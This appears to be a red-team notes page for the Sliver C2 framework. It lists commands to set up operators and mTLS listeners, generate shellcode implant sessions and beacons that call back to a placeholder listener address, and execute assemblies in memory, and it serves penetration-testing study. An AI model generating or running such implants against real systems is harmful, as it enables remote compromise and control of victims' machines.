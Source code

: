 ```yaml
---
layout:
  width: wide
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: false
---
```


# Sliver C2

## Set Up

### Create operator client config

{% code overflow="wrap" %}
```sh
sliver-server operator -n sliver-client -l 127.0.0.1 -s ~/.sliver-client/configs/sliver-client.cfg
```
{% endcode %}

### Run multiplayer mode

{% code overflow="wrap" %}
```sh
sliver-server
[server] sliver > multiplayer
```
{% endcode %}

### Run the client

{% code overflow="wrap" %}
```sh
sliver-client
```
{% endcode %}

## Listeners

### mTLS

{% code overflow="wrap" %}
```sh
mtls -l <listener_port>
```
{% endcode %}

## Generate Payloads

### Sessions

{% code overflow="wrap" %}
```sh
generate --disable-sgn --skip-symbols --format shellcode --mtls <listener_ip>:<listener_port> --name <session_name> --save <output>
```
{% endcode %}

### Beacons

{% code overflow="wrap" %}
```sh
generate beacon --seconds 30 --jitter 3 --disable-sgn --skip-symbols --format shellcode --mtls <listener_ip>:<listener_port> --name <session_name> --save <output>
```
{% endcode %}

## Execute Assembly

{% code overflow="wrap" %}
```sh
execute-assembly -i -E <program>
```
{% endcode %}

## Resources

* [https://github.com/seriotonctf/Red-Team-Notes/blob/main/Getting%20started%20with%20Sliver%20C2.md](https://github.com/seriotonctf/Red-Team-Notes/blob/main/Getting%20started%20with%20Sliver%20C2.md)
* [https://bishopfox.com/blog/passing-the-osep-exam-using-sliver](https://bishopfox.com/blog/passing-the-osep-exam-using-sliver)
